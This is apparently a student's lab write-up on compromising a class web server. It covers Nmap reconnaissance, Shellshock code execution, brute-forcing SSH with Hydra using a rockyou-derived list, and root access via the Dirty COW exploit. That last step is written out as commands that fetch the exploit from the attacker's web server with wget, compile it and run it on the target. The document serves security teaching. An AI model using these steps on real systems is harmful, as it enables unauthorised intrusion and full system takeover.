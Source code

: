 ### Overview 
------
For this lab we were tasked with exploting a webserver named "cupcake.shire.local". This is a local web server that was made our class to be able to exploit. We started with running 
active reacon against this server to attempt to find what ports were open as well as any applications running. We then learned how to export the results of our Nmap scans to a .csv
file which makes it much easier to parse than outputing the results to the command line. This is very helpful if you run a command that has a very large output. Following this we 
started to look for any vulernabilities we could exploit in order to leverage to get on the server. After finding this exploit we were able to execute code remotely and use this
to find the users and build a password list in order to be able to login to the server. After logging in we were tasked with gaining root access on this server. A more detailed 
explination of each section will be outlined below. 

### Reflection
------
This lab was incredibly fun and the first time dipping my feet into exploiting a server. I didn't have to many problems with this lab, however I did have to use google a lot just to find the correct syntax of each command. One thing that I did have a little trouble finding was the location of the resources we were running the remote code on. For example I was unawaren that to run ifconfig you must use the /sbin directory. As well that code for the status cgi was in /var/www/cgi-bin/status. One thing I would like to research more is finding other ways of privilege escalation. I was unable to do a different way than what was shown in the demo. 

### Active Reacon
------
For the active reacon portion of this lab we were tasked with finding what ports were open on the target server as well as what service and version it was running. To do this we used Nmap and ran the command `sudo nmap -sV -O 10.0.5.23 -p 22,80`. The screenshot below is the output of that command. 


![active reacon](https://user-images.githubusercontent.com/78443183/154110803-10fc16a1-e06f-4310-8551-59d55fab0969.PNG)

As you can see from this screenshot the server was running OpenSSH version 5.3 and Apache version 2.2.15. 

### Exporting Nmap Scan Results
------
Exporting Nmap Scan Results, like I mentioned in the overview, is a very useful tool to have and will make life so much easier. To start you must run the following commands to
to install nmaptocsv which is what allows you to do this. First `sudo apt install python3-pip` and then `sudo pip install nmaptocsv`. Following this you will run your nmap scan and have it output to a .txt file. For example `sudo nmap <your scan> <target address> -oG <filename>.txt`. You may use any naming scheme that you would like for the .txt file. After this you will take that file that was just created and use it in the command `nmaptocsv -i <filename>.txt -d ","`. You will then copy the output of that command into google sheets or excel and after pasting select the option "split text to columns" and you are finished. 

### Remote Code Execution
------
Since the target server has an vulnerablitiy called Shellshock we are able to leverage that to execute code remotely. We were tasked with finding the contents of  `/etc/passwd`, the code behind the status cgi, and the results of `ifconfig`. The three screenshots below will show the commands needed to find all of that content on the remote server. 

#### Contents of /etc/passwd
![etcpass](https://user-images.githubusercontent.com/78443183/154115045-c0159d2a-463a-4962-9faa-ee3bd6d2e40d.PNG)
------
#### Code behind the Status CGI
![cgi](https://user-images.githubusercontent.com/78443183/154115214-94773f39-42fb-4245-90b4-dc0aa694a531.PNG)
------
#### Results of ifconfig
![ifconfig](https://user-images.githubusercontent.com/78443183/154115260-eceb4028-7731-4da8-9905-ea01e9a24243.PNG)
------

### Building a Password List and Gaining Access
------
First I will start by discussing how I build the password list. I noticed that in the results of `cat /etc/passwd` on the target server, besides root there were only two other users, samwise and range-deployer. With this information in mind I extracted the rockyou.txt file on Kali to rocky.txt which is a long list of popular passwords and ran the username 'samwise' against this list. To do this I ran the command `cat rocky.txt | grep -i samwise`. Now I must say that we were given a little hint and that was that we should end up with 28 passwords in this list. As you can see from the screenshot below, there were 28 passwords. 

![rocky](https://user-images.githubusercontent.com/78443183/154116845-98488b3b-204e-46d0-a1ee-5764d305779d.PNG)

From here it is important to send the output into a passwordlist.txt file so you can use the next tool Hydra. Hyrda is a tool that will take a given username and password file and will run that against a target machine using ssh. If the correct password is found it will report that back to you. With this in mind I used Hydra to try and find the password as seen in the screenshot below.
![hydra](https://user-images.githubusercontent.com/78443183/154117331-6755b0b9-f9f7-4de0-b8cc-1e174caf12a8.PNG)

As you can see the password was Samwise123$. Knowing this it is as simple as using SSH to login with the command `ssh samwise@10.0.5.23` and when prompted entering in the password that was just found. 

### Privilage Escalation
------
For the privilage escalation portion of this lab I was unable to find a way other than the demo that was given to us, so I will be going over how that was done. Start on your local Kali box, and run the command `searchsploit <linux kernal release>`. You will want to search for the linux kernal release that your target system is running on. From there we found that there was an exploit named 'Dirty COW' and had a file name of '40839'. For the examples after this I will use the commands that were used in lab, just know if you are using a different exploit, the commands will be different. To pull this onto your system, you will run the command `searchsploit -m 40839`. Following this you want to invoke a webserver on the local Kali box using the command `python3 -m http.server 8088`. Make sure that the port number is one that is high. Now switch over to the the target box that we got into in teh section above. On the target machine run the command `wget http://10.0.99.111:8088/40839.c` where the IP address is the IP address of the web server that was just started. Still on the target machine run the following command `gcc 40839.c -o cow -lpthread -lcrypt`. Now run the command `./cow` and that will bring up a prompt to enter a new password. This will be the password you will use to gain root access so make sure you remember this. After this has completed you will be able to login with the user that is given, in our case it was the user 'firefart'. This users password is the one you just entered so now it is a simple as running the command `su - firefart` and entering in the password. You should now have root access on the target system. 


